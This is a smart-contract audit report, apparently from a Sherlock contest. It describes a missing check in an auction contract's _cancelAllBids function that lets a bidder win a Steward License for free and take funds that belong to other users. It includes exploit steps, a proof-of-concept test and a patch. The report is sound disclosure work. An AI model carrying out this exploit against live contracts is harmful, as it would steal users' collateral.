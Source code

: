 Funny Pearl Barracuda

high

# Bidder can cancel bid and acquire SL for free stealing funds from other users

## Summary
Due to missing checks in the contract's `EnglishPeriodicAuctionInternal.sol` function `_cancelAllBids` a bidder is able to place a highest bid and directly after cancel it and that way acquire the Steward License for free. This will directly steal funds from the previous owner as the winning bid amount is added to previous owner's collateral, but the funds have already been withdrawn by the malicious user. This way the protocol ends up owing users more funds than what is actually present in the contract.

## Vulnerability Detail
The vulnerability is caused by a missing check in the function `_cancelAllBids`, that ensures that a bid which is currently the highest bid cannot be canceled, as we see in the similar function `_cancelBid`
```solidity
function _cancelBid(
  uint256 tokenId,
  uint256 round,
  address bidder
) internal {
  EnglishPeriodicAuctionStorage.Layout
      storage l = EnglishPeriodicAuctionStorage.layout();

  ...

  require( // <----- This check
      bidder != l.highestBids[tokenId][round].bidder,
      'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
  );

  ...
}
```

The malicious user can do the following to exploit the missing check:
1. Place a winning bid on an auction through `EnglishPeriodicAuctionFacet.placeBid()`
2. In a subsequent transaction (or even the same transaction if the user has set up a malicious contract) call `EnglishPeriodicAuctionFacet.cancelAllBidsAndWithdrawCollateral`
3. The malicious user will now be set as the winning bidder, but at the same time got all of the collateral back, thus the winning bid had 0 cost.
4. If another user places a new winning bid, the malicious user can just repeat step 1-3 to always ensure being the highest bidder until the auction closes.
5. When `EnglishPeriodicAuctionFacet.closeAuction()` is called by any anyone, then the Steward license will be transferred to the malicious user.
6. The bid amount is still added to the previous owners available collateral, but when he/she calls `withdrawCollateral()` 2 things can happen. First scenario is that there are not funds enough in the contract, hence it will revert. Second scenario is that there are funds enough, such that the transaction will not revert. However, the funds will be taken from other users, thus at some point some user(s) will be unable to withdraw their collateral.

Below is a PoC test case that shows the first scenario described in step 6 above - add it to the test file `EnglishPeriodicAuction.ts`:
```javascript
it('should not allow cancel of all bids if highest', async function () {
  // Auction start: Now - 200
  // Auction end: Now + 100
  const instance = await getInstance({
    auctionLengthSeconds: 300,
    initialPeriodStartTime: (await time.latest()) - 200,
    licensePeriod: 1000,
  });
  const licenseMock = await ethers.getContractAt(
    'NativeStewardLicenseMock',
    instance.address,
  );

  const bidAmount1 = ethers.utils.parseEther('1.1');
  const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
  const collateralAmount1 = feeAmount1.add(bidAmount1);

  const bidAmount2 = ethers.utils.parseEther('1.2');
  const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
  const collateralAmount2 = feeAmount2.add(bidAmount2);

  await instance
    .connect(bidder1)
    .placeBid(0, bidAmount1, { value: collateralAmount1 });

  await instance
    .connect(bidder2)
    .placeBid(0, bidAmount2, { value: collateralAmount2 });

  await time.increase(100);


  // ---- Out-comment this section to make the test pass ----
  const oldBidderBalance = await ethers.provider.getBalance(
    bidder2.address,
  );
  const res = await instance
    .connect(bidder2)
    .cancelAllBidsAndWithdrawCollateral(0);
  const receipt = await res.wait();
  const gasFee = receipt.gasUsed.mul(res.gasPrice);

  const newBidderBalance = await ethers.provider.getBalance(
    bidder2.address,
  );

  // Proof that bidder2 did get all of the collateral back, even though it was in fact the highest bid
  expect(newBidderBalance.add(gasFee).sub(oldBidderBalance)).to.be.equal(
    collateralAmount2,
  );
  // ---- end ----

  await instance.connect(bidder2).closeAuction(0);

  expect(await licenseMock.ownerOf(0)).to.be.equal(bidder2.address); // Proof that bidder2 did indeed win the action

  // Owner does not get the bid amount
  const oldOwnerBalance = await ethers.provider.getBalance(owner.address);
  const res1 = await instance.connect(owner).withdrawCollateral(); // <-- This one will revert unless above section is out-commented
  const receipt1 = await res1.wait();
  const gasFee1 = receipt1.gasUsed.mul(res1.gasPrice);

  const newOwnerBalance = await ethers.provider.getBalance(owner.address);

  // Expect owner balance to increase by bid amount
  expect(newOwnerBalance.add(gasFee1).sub(oldOwnerBalance)).to.be.equal(
    bidAmount2,
  );
});
```

## Impact
Bidder is able to win actions and acquire Steward License for free, thus directly stealing funds from the previous SL owner. 

## Code Snippet
[EnglishPeriodicAuctionInternal.sol#L416-L434](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434)

## Tool used

Manual Review

## Recommendation
Add the same check from the function `_cancelBid` to `_cancelAllBids` that checks if a bid is the highest bid and hence cannot be canceled.
```diff
function _cancelAllBids(uint256 tokenId, address bidder) internal {
  EnglishPeriodicAuctionStorage.Layout
      storage l = EnglishPeriodicAuctionStorage.layout();

  uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

  for (uint256 i = 0; i <= currentAuctionRound; i++) {
      Bid storage bid = l.bids[tokenId][i][bidder];

-      if (bid.collateralAmount > 0) {
+      if (bid.collateralAmount > 0 && bidder != l.highestBids[tokenId][i].bidder) {
          // Make collateral available to withdraw
          l.availableCollateral[bidder] += bid.collateralAmount;

          // Reset collateral and bid
          bid.collateralAmount = 0;
          bid.bidAmount = 0;
      }
  }
}
```
